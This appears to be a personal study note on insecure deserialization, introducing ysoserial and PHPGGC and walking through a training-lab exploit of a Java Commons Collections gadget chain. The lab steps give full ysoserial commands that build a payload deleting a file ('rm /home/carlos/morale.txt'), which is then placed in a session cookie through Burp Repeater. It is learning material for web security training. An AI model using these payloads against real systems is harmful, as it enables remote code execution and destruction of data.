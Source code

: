 There are several tools available:
- that provide a range of pre-discovered chains 
	- that have been successfully exploited on other websites
- Even if you don't have access to the source code:
	- you can use these tools to both:
		- identify 
		- exploit insecure deserialization vulnerabilities with relatively little effort

This approach is made possible due to:
the widespread use of libraries that contain exploitable gadget chains

#### ysoserial
tool for Java deserialization.
This lets you:
- choose one of the provided gadget chains for a library that you think the target app is using
- pass in a command that you want to execute
- then creates an appropriate serialized object based on the selected chain
  
This:
- still involves a certain amount of trial and error
- but it is considerably less labor-intensive than constructing your own gadget chains manually

how to install it:
- https://github.com/frohoff/ysoserial
- dowload the latest ysoserial-all.jar
- `java -jar ysoserial-all.jar`

##### Exploiting Java deserialization with Apache Commons
- login
- look at the response -->  it contains a session cookie
- => decode it 
	![[Pasted image 20240913150625.png]]
- Download the "ysoserial" tool and execute the following command. This generates a Base64-encoded serialized object containing your payload:
    - In Java versions 16 and above:
        `java -jar ysoserial-all.jar \ --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \ --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \ --add-opens=java.base/java.net=ALL-UNNAMED \ --add-opens=java.base/java.util=ALL-UNNAMED \ CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 100000000`
    - In Java versions 15 and below:
        `java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 100000000`
- In Burp Repeater, replace your session cookie with the malicious one you just created. Select the entire cookie > right click > Convert Selection > HTML > HTML encode all Ch
- Send the request to solve the lab


#### PHP Generic Gadget Chains
Most languages that frequently suffer from insecure deserialization vulnerabilities:
- have equivalent proof-of-concept tools
- For example, for PHP-based sites:
	- you can use "PHP Generic Gadget Chains" (PHPGGC)

